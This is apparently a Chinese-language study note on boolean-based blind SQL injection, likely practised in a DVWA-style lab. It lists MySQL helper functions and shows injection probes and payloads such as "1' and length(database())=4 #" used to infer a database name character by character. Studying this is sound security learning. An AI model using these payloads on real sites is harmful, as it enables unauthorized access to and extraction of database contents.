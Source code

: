 ```sql
```

## 布尔盲注

在页面当中仅仅只返回真true、假false

### 函数说明

length()

```sql
select length(database())
```

ord()、ascii()

```sql
select ord(mid(database(),2,1))
select ascii(mid(database(),3,1))
```

char()

```sql
select char(110)
```

count()

```sql
select count(schema_name) from information_schema.schemata
```

left()、right()

```sql
select left(database(),2)
select right(database(),3)
```

lower()

```sql
select lower('ADWAnuwaduADNAOIWd')
```

### 判断注入点注入类型

```sql
?id=1/1&Submit=Submit#
?id=1/0&Submit=Submit#

?id=1'#&Submit=Submit#
```

### 判断当前数据库名长度

```sql
select length(database())
select * from users where user_id='1' and length(database())>1 #'
select * from users where user_id='1' and length(database())>4 #'
select * from users where user_id='1' and length(database())=4 #'		# 判断出当前数据库名长度伪4个字符

1' and length(database())=4 #
```
